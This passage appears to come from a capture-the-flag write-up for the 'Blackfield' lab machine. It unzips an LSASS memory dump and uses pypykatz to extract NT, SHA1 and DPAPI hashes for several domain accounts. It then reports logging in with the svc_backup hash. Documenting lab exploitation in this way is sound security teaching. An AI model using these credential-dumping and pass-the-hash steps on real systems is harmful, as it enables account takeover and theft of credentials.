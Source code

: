 ```
```

Local Security Authority Subsystem Service (LSASS) is a process that deals with Windows Security, and it does store the authentication credentials like hashes or Kerberos tickets in memory. If this is a memory dump, then we might be able to view the passwords by dumping it out.

We can download the file and then `unzip` it.

```
$ unzip lsass.zip    
Archive:  lsass.zip
  inflating: lsass.DMP
```

Then, using `pypykatz`, we can dump it out without going to a Windows machine to run `mimikatz`. Here's the interesting parts of the dump:

```
$ pypykatz lsa minidump lsass.DMP
Username: svc_backup
Domain: BLACKFIELD
LM: NA
NT: 9658d1d1dcd9250115e2205d9f48400d
SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
DPAPI: a03cd8e9d30171f3cfe8caad92fef621

Username: Administrator
Domain: BLACKFIELD
LM: NA
NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
DPAPI: 240339f898b6ac4ce3f34702e4a89550

Username: DC01$
Domain: BLACKFIELD
LM: NA
NT: b624dc83a27cc29da11d9bf25efea796
SHA1: 4f2a203784d655bb3eda54ebe0cfdabe93d4a37d
DPAPI: NA
```

Unfortunately, the hash for the administrator doesn't work. However, the one for `svc_backup` works and we can login:

<figure><img src="../../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>
